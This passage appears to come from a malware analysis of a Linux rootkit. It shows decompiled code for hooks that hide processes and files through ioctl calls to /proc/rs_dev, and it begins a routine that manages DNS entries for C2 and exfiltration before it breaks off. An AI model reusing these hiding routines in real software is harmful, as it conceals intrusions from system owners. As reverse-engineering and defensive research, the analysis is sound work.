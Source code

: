 <h4>For hiding the process, this hook in opening the access to the list of the process and hide it by ioctl syscall.</h4>

```cpp
int64_t var_34h;
int64_t var_20h;
int64_t var_18h;
uint32_t fildes;
int64_t var_4h;   
var_34h._0_4_ = (undefined4)arg1;
var_34h._4_4_ = (undefined4)arg2;
var_4h._0_4_ = 0xffffffff;
fildes = 0xffffffff;
fildes = open64("/proc/rs_dev", 0x800);
if (fildes != 0xffffffff) {
  var_20h._0_2_ = (undefined2)(undefined4)var_34h;
  var_18h = (int64_t)&var_34h + 4;
  var_4h._0_4_ = ioctl(fildes, 0x46375829, &var_20h);
  close(fildes);
}
return (undefined4)var_4h;
```

<h4>The same process is doing for hide the files in using the reference to the files in argument to search and hide it.</h4>

```cpp
var_34h._0_4_ = (undefined4)arg1;
var_4h._0_4_ = 0xffffffff;
fildes = 0xffffffff;
fildes = open64("/proc/rs_dev", 0x800);
if (fildes != 0xffffffff) {
  unique0x10000080 = (int64_t)arg2;
  var_28h._0_2_ = strlen(arg2);
  var_20h._0_2_ = (undefined2)(undefined4)var_34h;
  var_18h = (int64_t)&var_34h + 4;
  var_4h._0_4_ = ioctl(fildes, 0x46375829, &var_20h);
  close(fildes);
}
return (undefined4)var_4h;
```

<h4>The rootkit adds the DNS IP address for exfiltration and communications to the C2 (can also remove the address after updating the new IP of the DNS to contact). This can also manage PKG and clear all the DNS entries on the configuration.</h4>

```cpp
// add new DNS entry
iVar1 = 0x200;
 ppcVar2 = &s;
 while (iVar1 != 0) {
  iVar1 = iVar1 + -1;
  *ppcVar2 = (char *)0x0;
  ppcVar2 = ppcVar2 + 1;
 }
 var_2ch = 0;
 ptr = (void *)0x0;
 var_1ch = 0;
 var_38h = (void *)0x0;
 s1 = (char *)0x0;
 var_28h = (char *)0x0;
 var_8h = (int64_t)arg1;
 do {
  if (*(char *)var_8h == '\0') { return 0;}
  var_ch = 0;
  memset(&s, 0, 0x1000);
  while (((*(char *)var_8h != '\r' && (*(char *)var_8h != '\n')) && (*(char *)var_8h != '\0'))) {
```